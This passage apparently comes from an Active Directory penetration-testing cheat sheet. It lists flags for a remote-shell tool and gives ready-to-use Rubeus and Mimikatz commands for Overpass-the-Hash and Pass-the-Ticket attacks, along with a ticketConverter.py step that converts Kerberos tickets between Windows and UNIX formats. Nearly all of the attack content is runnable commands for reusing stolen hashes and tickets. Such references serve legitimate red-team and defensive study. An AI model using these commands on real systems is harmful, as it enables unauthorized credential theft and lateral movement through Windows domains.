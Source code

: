 

Some additional flags that could be useful.
| Flag | Description | 
| ---- | ---- |
| -S | use ssl | 
| -r | specify relm/domain |
| -n | disabled colors in the terminal |
| -l | enables logging | 
| -p | specify port |
| -U | specify url on the target machine (useful if target manually changed it, rare to happen) |

### Overpass-the-Hash

Rubeus

```powershell
Rubeus.exe ptt /ticket:<b64ticket>
Rubeus.exe ptt /user:USER /pass:PASS
Rubeus.exe ptt /user:USER /rc4:ntlmhash
Rubeus.exe ptt /user:USER /aes256:hash 
```


### Pass-the-Ticket


Tip: convert ticket to UNIX <-> Windows format
```bash

# Windows -> UNIX
ticketConverter.py $ticket.kirbi $ticket.ccache

# UNIX -> Windows
ticketConverter.py $ticket.ccache $ticket.kirbi
```

Step 1: Inject Ticket (If you already have ticket, skip to next step)

Windows

```powershell
# Rubeus 
Rubeus.exe ptt /ticket:"base64 | ticket.kirbi"

# Mimikatz
# use a .kirbi file
kerberos::ptt $ticket_kirbi_file

# use a .ccache file
kerberos::ptt $ticket_ccache_file
```
